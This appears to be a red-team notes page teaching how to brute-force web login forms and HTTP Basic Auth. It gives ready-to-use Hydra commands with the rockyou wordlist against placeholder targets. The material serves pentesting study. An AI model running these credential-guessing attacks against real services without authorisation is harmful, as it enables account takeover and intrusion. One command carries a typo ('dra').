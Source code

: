 # Brute-Force

## Theory

We may attempt to brute-force a web service as we may not be able to fully interact with it without credentials. Most web services come with a default user account such as **admin** and may use [common, default, weak or leaked passwords](../../../redteam/credentials/passwd/default-weak-and-leaked-passwords.md).&#x20;

For our brute-force attack, it will dramatically increase our chances of success and reduce the expected duration of our attack. We even may [generate our own wordlist](../../../redteam/credentials/passwd/generate-wordlists.md) for this purpose.

## Practice

{% tabs %}
{% tab title="Authentication Forms" %}
We can use Hydra to perform such attack on HTTP/HTTPS forms. We might use following methods:

* **http-get-form,** in case of an http page with a get form
* **https-get-form**, in case of an https page with a get form
* **http-post-form**, in case of an http page with a post form
* **https-post-form**, in case of an https page with a post form

This methods take parameters in the following format

```
<Path_To_Login_Form>:<Post_Data>:<Incorrect/Correct_String_Params>
```

```bash
# -l : username
# -P : password list
# http(s)-*-form : "<Path_To_Login_Form>:<Post_Data>:<Incorrect_String>
# -s : Specify a port 

# Find on error
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/login.php:user=^USER^&password=^PASS^:Login failed"
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 <IP> http-post-form "/login.php:user=^USER^&password=^PASS^:Login failed"

# Find on success
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> https-post-form "/login.php:user=^USER^&password=^PASS^:S=302"
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-get-form "/login.php:user=^USER^&password=^PASS^:S=Success!"
```
{% endtab %}

{% tab title="Basic Auth" %}
We can use Hydra to perform such attack on HTTP/HTTPS websites using Basic auth. We might use following methods:

* **http-get,** in case of an http page with basic auth.
* **https-get**, in case of an https page with with basic auth.

```bash
# -l : username
# -P : password list
# http(s)-get : "<Path_To_Protected_Page>"
# -s : Specify a port 

# HTTP
hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-get "/page_url"
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 <IP> http-get "/page_url"

# HTTPS
dra -l admin -P /usr/share/wordlists/rockyou.txt <IP> https-get "/page_url"
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 4434 <IP> https-get "/page_url"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-community/attacks/Brute_force_attack" %}

{% embed url="https://github.com/gnebbia/hydra_notes" %}
